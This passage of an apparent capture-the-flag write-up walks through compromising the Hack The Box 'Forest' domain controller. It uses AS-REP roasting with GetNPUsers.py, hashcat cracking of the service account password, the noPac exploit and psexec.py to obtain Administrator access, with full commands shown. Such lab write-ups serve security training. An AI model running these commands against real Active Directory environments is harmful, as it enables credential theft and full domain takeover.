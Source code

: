 ![f32fb1277162d620b2c614d7d69ad79f.png]({{site.baseurl}}/images/post/f32fb1277162d620b2c614d7d69ad79f.png)

[password spraying and bruteforcing didnt work (Same password as username) ]

### Kerberos ASREPRoast
asreproast is a user accounts with Kerberos pre-authentication required attribute not set. This allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

`GetNPUsers.py htb.local/ -usersfile user -format hashcat -outputfile hash_asrep -no-pass`

![37bf4692a955d58517b6567498194c39.png]({{site.baseurl}}/images/post/37bf4692a955d58517b6567498194c39.png)

Cracking the hash using `hashcat -m 18200 hash_asrep /usr/share/wordlists/rockyou.txt`

![b17b25a33034a49eeb4e455c8e08ec9a.png]({{site.baseurl}}/images/post/b17b25a33034a49eeb4e455c8e08ec9a.png)

we get `svc-alfresco:s3rvice`
We check for known low hanging fruits like Nopac and Petitpotam
![b0a5e1ffb20973140130d63699d0b0ec.png]({{site.baseurl}}/images/post/b0a5e1ffb20973140130d63699d0b0ec.png)


# root flag

### Credential Cache
A credential cache (or “ccache”) contains the Kerberos credential although it remains valid and, typically, while the user’s session lasts, so that multiple service authentication (e.g. connecting to a web or mail server more than once) does not involve contacting the KDC at every time.

A credential cache usually contains one initial ticket which is obtained using a password or another form of identity verification. If this ticket is a ticket-granting ticket, it can be used to obtain additional credentials without the password. Because the credential cache does not store the password, less long-term damage can be done to the user’s account if the machine is compromised.

A credentials cache stores a default client principal name, set when the cache is created. This is the name shown at the top of the klist

Using [No Pac](https://github.com/Ridter/noPac)
`python noPac.py htb.local/'svc-alfresco':'s3rvice' -dc-ip 10.10.10.161 -use-ldap`
![83e90f4d38637d490fb696fca5aed615.png]({{site.baseurl}}/images/post/83e90f4d38637d490fb696fca5aed615.png) we get kerboros ticket

using psexec.py `psexec.py -dc-ip 10.10.10.161 -target-ip 10.10.10.161 -no-pass -k htb.local/Administrator@forest.htb.local`

![2114cac3e03095d86da641cfa41a847a.png]({{site.baseurl}}/images/post/2114cac3e03095d86da641cfa41a847a.png)




***
## Wrap Up
- In this "Forest" box, enumeration reveals a Windows Active Directory environment with common services exposed, such as Kerberos and LDAP. Using ASREPRoasting, we cracked the password for the svc-alfresco account, leading to exploitation via the NoPac vulnerability, which allowed privilege escalation by obtaining a Kerberos ticket. With this, we achieved administrator access to the Domain Controller, eventually obtaining the root flag through a psexec connection
